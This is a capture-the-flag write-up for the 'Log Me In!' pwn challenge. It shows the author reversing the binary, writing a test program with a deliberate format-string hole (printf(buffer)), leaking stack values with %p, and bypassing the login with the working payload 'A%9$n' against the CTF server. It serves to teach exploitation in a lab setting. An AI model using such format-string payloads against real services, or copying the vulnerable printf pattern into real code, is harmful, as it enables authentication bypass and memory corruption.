





# Log Me In!

**Category:** Pwn

**Points:** 15

**Description:**

Author: kcolley

nc ctf.hackucf.org 7006

> **Files:** logmein, libpwnableharness64.so

## Write-up
When running the program, you are asked for a username and password:
```
> nc ctf.hackucf.org 7006
user = 0x1947010
Enter your username:
fred
Enter password for user: fred
fred
Invalid login information.
```

We clearly need to find out how to manipulate the input to successfully login.

I moved to using the local copy. First I tried entering nothing at the prompts:
```
> ./logmein
user = 0x87e010
Enter your username:

Enter password for user: 

Invalid login information.
```

I opened the local copy up in IDA Pro. There is a `handle_connection()` function, so that's probably the place to concentrate effort:



> Key: The main function getting the input is in blue, the bit we need to get into is in green and the invalid state is in red (the dark red line is just a breakpoint).

We can see near the boundary between the blue and green is the test that decides which reply we get:
```assembly
mov    eax, [rax]
test   eax, eax          ; Tests (ANDs) the contents of eax (the input)
jz     short loc_400AB5  ; This jumps to the 'invalid' code if zero
```

So `eax` is given the contents of `rax` and then essentially ANDed with itself. If this results in zero (meaning the value in `eax` has to be zero), then we jump into the `Invalid login information.` section of the code.

To see if it's any clearer, I also used Ghidra to disassemble to C:



It seems that the variable I named `input_p` is initially created as an `int` pointer which points to 1 chunk of memory of 44 (0x2c) bytes in size.

Up to 20 (0x14) characters are then read in for the username using `fgets`. These are stored at location `input_p + 1`.

Another, up to, 20 characters are then read in for the password and stored at `input_p + 6`.

Then the choice of output depends on whether the contents of `input_p` is zero or not.

The behaviour of storing the username in `input_p + 1` and the password in `input_p + 6` seems odd, so I ran the code through the IDA Pro debugger to confirm my interpretation of the code. This is, in fact, what happens. 

As `input_p` is an int pointer (4 bytes per int), `input_p + 1` is actually 4 bytes on in memory, and `input_p + 6` is 24 bytes from the start of `input_p` in memory. The base address of `input_p` (in the current run) is 0x009A3010. If we look at this area of memory during a run we can see how that's setup:



As we approach the comparison, `rax` holds the address of `input_p`, and the statement:
```assembly
mov    eax,[rax]
```
moves the content of the address pointed to by `rax` into `eax`. As `eax` is a 32-bit register, that only reads the first four bytes, which are always zero.

It seems there is no exploit for `fgets()`, but there is some other information that may be useful. The address of the data is also stored on the stack (the local variable `input_p`):



If we could use the input to the username to manipulate this address (subtract 24 from it), then the password would end up being written starting at the original address rather than 24 bytes in as before. This would overwrite the first four bytes, later resulting in `eax` not being zero.

It turns out there may be a way to do this, as the code uses:
```c
fgets((char *)(input_p+1), x014, stdin);
printf("Enter password for user: ");
printf((char *)(input_p+1));
``` 

The fact the buffer is printed out with `printf()` and it's on it's own line means we could use the [format exploit](http://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html), but it needs some work to find out how.

Basically, the exploit uses formatters passed to `printf()` to manipulate memory:
* `%x` - display an argument as hexadecimal
* `%p` - display an argument as a pointer
* `%n` - displays nothing, but is passed a pointer argument - a pointer to a signed int - and sets that signed int to the number of characters printed out so far.

Examples:
```
printf("The number 180 in hex is: %x \n", 180);
The number 180 in hex is: b4

printf("My pointer points at memory location: %p \n", my_pointer);
My pointer points at memory location: 0x7fe5fb3b5700

printf("I need to store the number of characters I've printed into my_pointer!%n \n", my_pointer);
I need to store the number of characters I've printed into my_pointer!
// The memory at address my_pointer will now contain 70 (the number of characters in the sentence above)
```

The fact that `%n` can send a number to a memory address means that we don't need to manipulate the pointer, as I thought above, we just need to get that pointer to be used as an argument for the `%n` value.

First we can use `%x` or `%p` to find where the `input_p` variable sits on the stack in relation to the current stack pointer. I've found it difficult to see a relationship between what comes out when using the format exploit, and what values are on the stack for the challenge code. Therefore, I decided to write a small program that could take more format specifiers (the challenge is limited to 20 charactes in the username), and use the results of those tests to try to understand what is actually happening.

The first pass of the program was:
```c
#include <stdio.h>

int main(int argc, char **argv)
{
  char buffer[100];
  fgets(buffer, 100, stdin);
  printf("You entered: ");
  printf(buffer);
  printf("\n");
  return 0;
}
```
and was compiled and run with:
```
> gcc -fno-stack-protector -o test_p test_p.c
test_p.c: In function ‘main’:
test_p.c:8:10: warning: format not a string literal and no format arguments [-Wformat-security]
   printf(buffer);
          ^
> python -c "print ('AAAA ' + '%x '*20)" | ./test_p 
You entered: AAAA 1293020 86cb0780 d 86ebe700 d 2b638938 0 41414141 25207825 20782520 78252078 25207825 20782520 78252078 25207825 a20 0 400650 400500 2b638930 
```
> Note: The `-fno-stack-protector` is so we can write to the stack without causing a problem. 

> Note also: We actually get a warning about the format exploit.

When we run it (passing in AAAA followed by 20 `%x` formatters), as there are no actual arguments to `printf()` in the code, it goes and gets its arguments from the stack to fill the formats. You can see that the 8th hex value returned is 0x41414141, which are the 4 'A's (0x41 in ASCII) we started the string with. This is followed by our %x (0x25, 0x78 and 0x20 for the space) characters, though they seem to be in an odd order and missing some bits. This is because `%x` is only showing the least-significant 32-bits. If we use `%p`, this shows the full 64-bit values and we see:
```
> python -c "print ('AAAA ' + '%p '*20)" | ./test_p 
You entered: AAAA 0x1621020 0x7f9a67ab9780 0xd 0x7f9a67cc7700 0xd 0x7ffde8020238 0x100000000 0x2070252041414141 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0xa20 (nil) 0x400650 0x400500 0x7ffde8020230
```
Here you can see the bytes are reversed - our 0x41414141 is displayed in the least-significant bytes of the 8th value, and it has the first part of the `%x`s from our input in the most-significant bytes. This is clearer if we use ABCD instead of AAAA:
```
> python -c "print ('ABCD ' + '%p '*20)" | ./test_p 
You entered: ABCD 0x2514020 0x7f8e3e020780 0xd 0x7f8e3e22e700 0xd 0x7fff26cca578 0x100000000 0x2070252044434241 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0xa20 (nil) 0x400650 0x400500 0x7fff26cca570
```
Again, look at the 8th value and see that the 4 LSBs are 0x44434241.

I also tried to display just the ABCD (0x44434241) entry from the stack (8th position) with:
```
> ./test_p
ABCD %8$x
You entered: ABCD 44434241
> ./test_p
ABCD %8$p
You entered: ABCD 0x2438252044434241
```
This works because, with `printf()`, we are allowed to specify a particular argument in the argument list to use, rather than the next available one. Using the sequence `%i$` (where `i` is an integer specifying the argument number) instead of just `%` in any of our formatters enables us to get that argument. In `%8$x`, we are getting the 8th argument (or stack memory location after the current position in this case) and passing that to a `%x` formatter.

Let's now see how we get on if we put the address on the heap. The code was changed to:
```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv)
{
  int *buffer;
  buffer = (int *)calloc(1,100);
  printf("buffer is: %p\n",buffer);
  fgets((char*)buffer, 100, stdin);
  printf("You entered: ");
  printf((char*)buffer);
  printf("\n");
  return 0;
}
```
This was built with the same `gcc` build command as before. Now it's very similar to the code for this challenge. So what do we see if we use the techniques above:
```
> python -c "print ('ABCD ' + '%p '*20)" | ./test_p
buffer is: 0x1e9c010
You entered: ABCD 0x400770 0x7fe5fb1a7780 0xd 0x7fe5fb3b5700 0xd 0x7ffd2209a288 0x100400550 0x7ffd2209a280 0x1e9c010 0x4006d0 0x7fe5fae01830 (nil) 0x7ffd2209a288 0x100000000 0x400646 (nil) 0x9c55f348bfd89065 0x400550 0x7ffd2209a280 (nil)
```
We can see at the 9th location we have the `buffer` address. We can isolate this with:
```
> ./test_p 
buffer is: 0x1866010
%9$p
You entered: 0x1866010
```

Now we know that this program puts the address in the 9th location, we should be able to debug it in IDA Pro and see the values put out from the stack. To do this I created and input file `test_inp.txt` that can be redirected into the program in the Debugger | Process options dialog.
```
> python -c "print ('ABCD ' + '%p '*20)" > test_inp.txt
```

When I run this in the debugger, the address from the `calloc()` (on the example run it's 0x01e06010) can be seen at 0x7ffc81f4c598 on the stack:



And in the output it appears at location 9 in the list as before:
```
buffer is: 0x1e06010
You entered: ABCD 0x400770 0x7fb506f53780 0xd 0x7fb507161700 0xd 0x7ffc81f4c688 0x100400550 0x7ffc81f4c680 0x1e06010 0x4006d0 0x7fb506bad830 (nil) 0x7ffc81f4c688 0x100000000 0x400646 (nil) 0xce6ab2db357608f7 0x400550 0x7ffc81f4c680 (nil)
```
Here we can see in the image above that the stack values close to our address can be seen to match the output, but other values don't. This must mean the stack values change during the `printf()` (the image was taken immediately before the call to `printf()`), which is why I struggled to match values up when trying to analyse the challenge code.

Now that I understand the format exploit better, I realise I could just have used something like `%5$p %p %p ...` to look further down the stack in the challenge program, and I would have seen where the address was.

The programs were so similar, that I thought I could perhaps just try the 9th value in the challenge:
```
> ./logmein 
user = 0x19bd010
Enter your username:
%9$p
Enter password for user: 0x19bd010

Invalid login information.
```
Now, can I use `%n` to write to that location? If we move the `%n` to the 9th argument (address), the number of characters will be sent to the start of the input buffer, making `test eax, eax` pass. Therefore, `A%9$n` should send 1 (the letter A is the only character printed) to the address at 'argument' 9.
```
> ./logmein 
user = 0x1c83010
Enter your username:
A%9$n
Enter password for user: A
b
Successfully logged in!
flag.txt: No such file or directory
```
This worked - now to run it against the server:
```
> nc ctf.hackucf.org 7006
user = 0x1b29010
Enter your username:
A%9$n
Enter password for user: A

Successfully logged in!
```

This gave me the flag!
